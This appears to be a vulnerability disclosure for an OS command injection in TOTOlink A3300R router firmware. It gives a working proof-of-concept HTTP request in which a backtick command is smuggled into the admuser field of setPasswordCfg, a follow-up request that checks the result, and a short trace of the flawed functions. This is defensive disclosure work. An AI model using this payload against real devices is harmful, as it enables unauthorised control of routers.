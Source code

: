 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information
Device: TOTOlink A3300R<br>
Firmware Version: V17.0.0cu.557_B20221024<br>
Manufacturer's website information：https://www.totolink.net/<br>
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html<br>

## Vulnerability Description
When deal with setPasswordCfg request, admuser parameter is vulnerable to OS command injection.

### POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.44.132
Content-Length: 106
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/advance/changepwd.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

{"admuser":"admin`ls>/web/cmdi.txt`","admpass":"admin123","origPass":"admin","topicurl":"setPasswordCfg"}
```

injection the command "ls>/web/cmdi.txt"

![poc1](img/poc1.jpg)

check the result.
```
GET /cmdi.txt HTTP/1.1
Host: 192.168.44.132
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close


```

![poc2](img/poc2.jpg)

## Analyse
sub_414BE4 will handle the setPasswordCfg request. sub_414BE4 firstly get admuser from request body, then pass to Uci_Set_Str function.

![ana1](img/ana1.jpg)

Uci_Set_Str function Splicing uci command, and pass to CsteSystem function.

![ana2](img/ana2.jpg)

CsteSystem wraps the command and then passes it to execv to execute the command.

![ana3](img/ana3.jpg)
